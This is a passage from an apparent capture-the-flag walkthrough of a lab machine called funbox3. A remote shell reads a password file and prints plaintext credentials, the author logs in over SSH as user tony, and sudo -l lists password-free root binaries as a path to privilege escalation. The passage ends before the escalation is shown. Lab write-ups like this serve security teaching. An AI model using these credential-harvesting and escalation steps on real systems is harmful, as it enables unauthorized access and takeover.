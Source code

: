 We can cat out the `password.txt` file.

```
RCE $ cat /home/tony/password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

Looks like the password for the `tony` user is `yxcvbnmYYY`.

#### Logging in as the `tony` user

```
$ ssh tony@192.168.186.111
tony@192.168.186.111's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 13 07:15:11 UTC 2024

  System load:  0.0               Processes:               154
  Usage of /:   76.0% of 4.66GB   Users logged in:         0
  Memory usage: 58%               IPv4 address for ens256: 192.168.186.111
  Swap usage:   0%


60 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 13 07:15:03 2024 from 192.168.45.193
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tony@funbox3:~$ 
```


### Privilege Escalation

#### Misconfigured Sudo privileges

Let's check what commands `tony` can run with `root` privileges without needing a password.

```
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
```